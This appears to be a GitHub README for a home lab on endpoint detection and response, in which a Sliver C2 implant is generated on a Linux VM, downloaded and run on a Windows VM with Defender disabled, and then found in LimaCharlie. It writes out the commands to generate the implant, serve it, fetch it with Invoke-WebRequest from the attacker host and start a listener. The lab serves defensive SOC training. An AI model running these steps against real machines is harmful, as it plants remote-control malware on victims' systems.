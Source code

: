 <h1>Endpoint Detection and Response</h1>

 
 <h2>Description</h2>
In this Project, attacks are simulated using a virtual Windows and Linux machine and the attack is monitored, detected and blocked using the Endpoint Detection and Response agent
called LimaCharlie.Through LimaCharlie, simulated attacks are detected and blocked using detection/block rules.<br />


<h2>Languages and Utilities Used</h2>

- <b>PowerShell</b> 
- <b>Command Line</b>
- <b>Sliver</b>
- <b>Sysmon</b>
- <b>LimaCharlie</b>
- <b>Secure Shell(SSH)</b>

<h2>Environments Used </h2>

- <b>VMware Workstation Pro 17</b>
- <b>Windows 11 Enterprise</b>
- <b>Linux Ubuntu(Server Version)</b> 


<h2>Project walk-through:</h2>

The setup for the VM environment consists of many steps.  For the detailed steps, a link is provided to Eric Capuano's blog <b>So you want to be a SOC Analyst?(Part1)</b> <a href=https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-part>here</a>

The Summary of the VM Environment is as follows:
A.  Establishment of a Windows Virtual Machine with Windows Defender disabled/suppressed and
    and Sysmon installed. Sysmon will provide telemetry through LimaCharlie which is also installed
    on the Windows VM.

B.  Linux Virtual Machine (Ubuntu Server Version) with Sliver Command and Control framework installed.
    Sliver will be used to deliver malware to the Windows VM.

<p align="left"><b>Attack Monitor & Detection</b><br/>

1.  In Linux Machine:
    Drop into root shell and change directory to Sliver location--> cd /opt/sliver

2.  Launch Sliver C2 Agent-->sliver-server

     ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/df71e29b-f3c4-4ca1-a42d-ce608735378f)

3.  Generate C2 session payload with Sliver using Linux Machine’s IP address obtained during the establishment of the Virtual Machines mentioned above.

     --> generate --http  Linux IP Address --save /opt/sliver

    ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/5bdaed61-3a37-45bc-b754-ec40db806e76)

    Note that MASSIVE_DEPRESSIVE.EXE is the payload/implant name in my case.

4.  Within the opt/sliver directory, we use the following python script to execute a temporary server
    --> python3 -m http.server 80

5. Switch over to Windows Virtual Machine while server is established in Linux Machine
   and launch an Administrative PowerShell console

6. Within the Administrative Powershell Console we run the following command to simulate
   the downloading of the C2 payload from the Linux Attacker Machine.
   
   --> IWR -Uri http://Linux IP/payloadname.exe -Outfile C:\Users\User\Downloads\payloadname.exe

7.  Now that the payload has been downloaded on the Windows Machine, we can execute the Command
    and Control Session as an attacker through the Linux Machine.
    
   a.  Using the SSH session on the Linux server We will relaunch Sliver with command --> sliver-server
   
   b.  Then we start the listener with -->http

![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/a84825cd-e9e8-4a03-9b60-08006dc91fff)

8.  Switching over to the Windows Machine, we then execute the payload with the following command using Admin Powershell Prompt:
    --> C:\Users\User\Downloads\<your_C2-implant>.exe
    Note that the established session is shown on the Linux Machine as shown below.

![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/6c9c5a86-cfa2-431a-849a-1277643ca12a)

Various attacks can be done through the established session. However, we will proceed to monitoring and detecting this attack in
the Lima Charlie tool.

9.  We can now look for our attack in the Lima Charlie web application. Please note that Lima Charlie was configured after
    the establishment of the virtual machines. The detailed steps are in the link above.

    --> Sensor List
        --> Hostname(windev2305eval.localdomain)

![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/a7849e22-66e5-4caa-a8e5-988e51a4e759)

    From here we navigate to -->processes and we find our malware "MASSIVE_DEPRESSIVE.exe"
    Note that there is no green check indicating a signature for the malware. A lack of signature can indicate a malicious
    file/process.

    ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/985161fa-1ac7-46d6-8db9-a11361fb13d6)

  Navigating just below Processes to --> Network we can see the malware and its source IP and other information.

  ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/fd77e80b-4e11-4adf-a06a-296534ed5bfc)

  


    
<!--
 ```diff
- text in red
+ text in green
! text in orange
# text in gray
@@ text in purple (and bold)@@
```
--!>
